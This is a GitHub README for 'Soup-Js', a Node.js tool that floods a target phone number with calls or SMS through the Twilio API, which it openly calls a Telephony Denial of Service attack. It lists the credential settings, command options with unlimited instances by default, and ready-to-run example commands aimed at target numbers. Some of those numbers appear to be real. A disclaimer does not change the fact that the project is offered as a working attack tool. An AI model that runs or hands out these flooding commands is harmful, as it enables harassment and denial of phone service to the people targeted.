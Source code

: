 [![Open Source Love](https://badges.frapsoft.com/os/v1/open-source.png?v=103)](https://github.com/Jfaler/soup/blob/master/LICENSE.txt)

# TDoS Call Flooder : Soup-Js
* Open source call flooder using Twilio API, inspired by [Soup](https://github.com/Jfaler/soup).
* Inspiration from [Liu Shengxian]https://github.com/liushengxian/soup-js
* Inspiration from Project Mayhem

Note: I am not responsible for malicious activity that can be brought upon by this service. This project was forked due only by my own interest.

## Description 

This type of attack is reffered to as a TDoS or Telephony Denial of Service attack.   

## Version
`
2.0.0.0
`
## Prerequisites

* Read Legality https://www.twilio.com/legal/aup
* Sign up https://www.twilio.com/try-twilio
* Install Nodejs.

## Installation

1. clone the repo
1. `yarn install`

## Usage
Ensure you have a `.env` set with the following:
```
TWILIO_ACCOUNT_SID='<FILL IN SID>' 
TWILIO_AUTH_TOKEN='<FILL IN AUTH TOKEN>'
TWILIO_NUMBERS='<COMMA SEPARATED LIST OF TWILIO NUMBERS'
MSG_SID='<MESSAGE SERVICE SID>'
TWILIO_TWIML='<TWIML VOICE MESSAGE>'

MSG_SID is used for text
TWILIO_TWIML is used for calls
```

```
❯ yarn start --help
yarn run v1.22.10
$ node flood --help
Usage: flood [options]

Options:
  -t, --target <string>     target to call
  -a, --action <string>     call or message (default: "call")
  -n, --numbers <items>     numbers to use
  -i, --instances <string>  number of instances (default: "unlimited")
  -d, --delay <string>      delay between calls/messages in seconds (default: "10")
  -m, --message <string>    message to send for sms (default: "testing")
  -h, --help                display help for command
```


## Examples
This will send an SMS text to the target number twice with the message "I like trains"
```
yarn start --target 0001112222 --numbers +9998887777 --instances 2 --action sms --message "I like trains"
```
This will call the target number twice with the text the TWILIO_TWML url points to
```
yarn start --target 9497015701 --numbers 18479433716 --instances 2 --action call
```
## Authors
* **Ethan Wessel** - *Custom Version*
* **Misanya Liu** - *NodeJs Version* - [Misanya](https://github.com/liushengxian)
* **Justin Faler** - *Initial work* - [Jfaler](https://github.com/Jfaler)

## License

This project is licensed under the MIT License - see the LICENSE.md file for details.
